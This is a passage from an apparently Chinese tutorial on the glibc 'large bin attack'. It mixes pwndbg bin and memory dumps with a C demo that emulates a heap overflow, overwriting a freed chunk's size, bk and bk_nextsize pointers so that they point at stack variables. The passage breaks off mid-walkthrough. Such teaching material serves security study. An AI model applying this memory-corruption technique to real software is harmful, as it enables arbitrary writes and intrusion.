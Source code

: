 它会被插入到 unsorted bin 中：

```
pwndbg> p p3
$3 = (unsigned long *) 0x6037b0
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x6037a0 —▸ 0x6030a0 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x6037a0
smallbins
empty
largebins
0x400: 0x603360 —▸ 0x7ffff7dd1f68 (main_arena+1096) ◂— 0x603360 /* '`3`' */
```

接下来假设有栈堆溢出，可以覆盖第二块 large chunk 的 size 和 bk、bk_nextsize 指针。

``` c++
    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
            " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
            " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
            " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------
```

我们减少释放的第二块 large chunk 的 size 以迫使 malloc 插入释放的位于 large bin freelist 首部的第三块 large chunk。

为了覆盖栈上的变量，我们将 bk 指向 stack_var1 的 16 bytes 前，bk_nextsize 指向 stack_var2 的 32 bytes 前：

修改前：

```
pwndbg> p p2
$4 = (unsigned long *) 0x603370
pwndbg> x/20xg p2-2
0x603360:	0x0000000000000000	0x0000000000000411
0x603370:	0x00007ffff7dd1f68	0x00007ffff7dd1f68
0x603380:	0x0000000000603360	0x0000000000603360
0x603390:	0x0000000000000000	0x0000000000000000
0x6033a0:	0x0000000000000000	0x0000000000000000
0x6033b0:	0x0000000000000000	0x0000000000000000
0x6033c0:	0x0000000000000000	0x0000000000000000
0x6033d0:	0x0000000000000000	0x0000000000000000
0x6033e0:	0x0000000000000000	0x0000000000000000
0x6033f0:	0x0000000000000000	0x0000000000000000
```
